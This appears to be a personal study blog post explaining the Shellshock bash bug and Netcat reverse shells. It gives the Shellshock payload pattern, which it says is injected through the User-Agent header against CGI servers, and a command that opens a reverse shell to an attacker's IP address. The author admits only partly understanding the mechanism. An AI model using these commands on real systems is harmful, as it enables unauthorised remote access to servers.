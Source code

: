 ___
layout: post
title: Shellshock and Reverse Shell Using 'Netcat'
___

## Shellshock
`() { :;}; [arbitrary command]` can be used to execute arbitrary commands.\
The shellshock bug can be executed if the environment variable of the cgi is somehow set.\
**Honestly I don't enough about cgi, environment variables, bash to understand exactly how this works.**\
So web servers like apache will make a cgi script. The cgi script wil be executed on a bash shell.\
Apache will send information to the cgi script via environment variables. That will be the key to inject the shellshock code.\

In the web, `User-Agent` header is used for logging purposes, and this is exposed directly to the environment variable.\
By setting the `User-Agent` as the above mentioned shellshock bug, you can get access to the server.

[The original shellshock report](https://seclists.org/oss-sec/2014/q3/650)

## Reverse Shell with Netcat
On the local machine you have access to,
```nc -l -p [port number]```
-l: set to listen mode
-p: will set port number; for the listener, this is the listened port, for the target system, this is the source port

On the penetrated machine,
```nc [ip address] [port number] -e /bin/bash(or other shells such as /bin/sh)```
-e: tell what operation to do after connection is set
